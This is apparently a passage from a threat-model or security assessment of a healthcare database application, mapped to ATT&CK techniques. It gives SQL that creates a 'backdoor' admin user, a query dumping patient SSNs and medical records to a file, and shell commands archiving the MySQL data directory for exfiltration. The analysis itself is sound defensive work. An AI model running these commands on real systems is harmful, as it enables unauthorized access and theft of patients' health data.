 
**T1068: Exploitation for Privilege Escalation**
- **Description:** Abuse overly permissive database user
- **Example:**
```sql
-- ehrapp has ALL PRIVILEGES
-- Can create admin accounts:
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'complex_pass';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION;
```

---

#### Collection

**T1213: Data from Information Repositories**
- **Description:** Extract PHI from database
- **Impact:** HIPAA breach, identity theft

**Extraction:**
```sql
-- Collect all PHI
SELECT p.first_name, p.last_name, p.ssn, p.dob,
       m.diagnosis, m.medications, m.doctor_notes
FROM patients p
LEFT JOIN medical_records m ON p.id = m.patient_id
INTO OUTFILE '/tmp/phi_breach.csv';
```

**Data Categories:**
- 50 SSNs (Social Security Numbers)
- 50 dates of birth
- 200+ medical diagnoses
- 200+ medication lists
- Insurance policy numbers
- Billing information
- Credit card partial numbers

---

**T1005: Data from Local System**
- **Description:** Access database files directly
- **Method:** If container is compromised:
```bash
# MySQL data files
cd /var/lib/mysql/healthcare_db
# Contains .ibd files (table data)

# Copy files
tar czf /tmp/db_backup.tar.gz /var/lib/mysql/healthcare_db
# Exfiltrate
```

---

#### Exfiltration
